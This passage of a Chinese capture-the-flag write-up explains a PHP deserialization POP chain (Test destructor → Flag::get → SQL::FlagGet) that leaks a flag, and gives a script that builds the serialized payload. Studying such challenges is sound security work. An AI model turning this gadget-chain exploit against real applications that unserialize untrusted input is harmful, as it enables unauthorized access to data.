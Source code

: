 ```php
            $result = $sth->fetch($this->pdo::FETCH_ASSOC);

            return array('status'=>1,'msg'=>'success','flag'=> $result['flags']);
        } else {
            return array('status'=>0,'msg'=>implode(' ', $this->pdo->errorInfo()));
        }
    }

}

```


### 思路

1. 首先在justtry.php处可以反序列化生成Flag，Test，SQL类的实例
2. Test的对象在销毁时会调用当前对象中的fl成员的get方法
3. 发现Flag类中有get方法，该方法会调用当前对象中的sql成员的FlagGet方法
4. 发现SQL类中存在FlagGet方法，既可拿到flag

### POP链

[POP链和序列化，反序列化操作](http://www.blogsir.com.cn/safe/452.html)

- 构造一个Test类的实例
- 其中的fl成员为Flag类的实例
- fl成员中的sql成员是一个SQL类的实例

```php
<?php
namespace Index\Helper;

class SQL
{
    public $dbc;
    public $pdo;
}

class Flag
{
    public $sql;
}

class Test
{
    public $user_uuid;
    public $fl;
}

$a= new Test;
$a->user_uuid="5d71b644-ee63-4b11-9c13-da3c4ac35b8d";
$a->fl=new Flag;
$a->fl->sql=new SQL;

echo serialize($a);
```
